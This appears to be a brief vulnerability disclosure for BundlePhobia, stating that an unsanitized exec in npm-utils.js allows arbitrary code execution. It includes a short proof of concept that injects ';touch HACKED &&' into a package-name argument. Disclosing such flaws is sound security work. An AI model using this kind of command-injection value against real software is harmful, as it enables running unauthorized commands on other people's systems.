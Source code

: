 # Description
```BundlePhobia``` is a tool to help you find the cost of adding a npm package to your bundle. It enables you to query package sizes.
The ```npm-utils.js``` has a unsanitized ```exec``` function which leads to ```Arbitrary code execution```

# Proof-of-concept
```
const util = require('./npm-utils.js');
let a = util.getVersionList(';touch HACKED &&');
console.log(a);
```